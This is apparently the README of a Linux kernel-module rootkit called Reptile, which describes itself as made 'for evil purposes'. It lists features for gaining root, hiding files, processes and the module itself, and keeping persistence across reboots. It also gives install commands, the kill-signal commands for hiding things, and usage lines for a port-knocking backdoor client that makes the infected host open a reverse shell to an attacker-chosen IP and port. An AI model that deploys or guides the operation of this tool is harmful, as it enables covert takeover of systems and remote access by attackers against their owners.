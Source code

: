# Reptile

Reptile is a LKM rootkit for evil purposes. If you are searching stuff only for study purposes, see the [demonstration codes](https://github.com/f0rb1dd3n/papers/tree/master/rootkit_demonstration).

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Boot persistence
- Heaven's door - A ICMP/UDP port-knocking backdoor
- Client to knock on heaven's door :D
    
## Install
```
apt-get install linux-headers-$(uname -r)
https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```
## Uninstall
```
kill -50 0
rmmod reptile_mod
./install.sh uninstall
```

## Usage

Binaries will be copied to `/reptile` folder, that will be hidden by Reptile.

### Getting root privileges

```
hax@Debian:~$ id
uid=1000(hax) gid=1000(hax) grupos=1000(hax),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth),118(scanner)
hax@Debian:~$ /reptile/r00t
You got super powers!

root@Debian:/home/hax# id
uid=0(root) gid=0(root) groups=0(root)
```

### Hiding

- Hide/unhide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's Door
Writen by: F0rb1dd3n

Usage: ./knock_on_heaven <args>

-x      protocol (ICMP/UDP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock_on_heaven -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock_on_heaven -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 53 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l

```

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project.
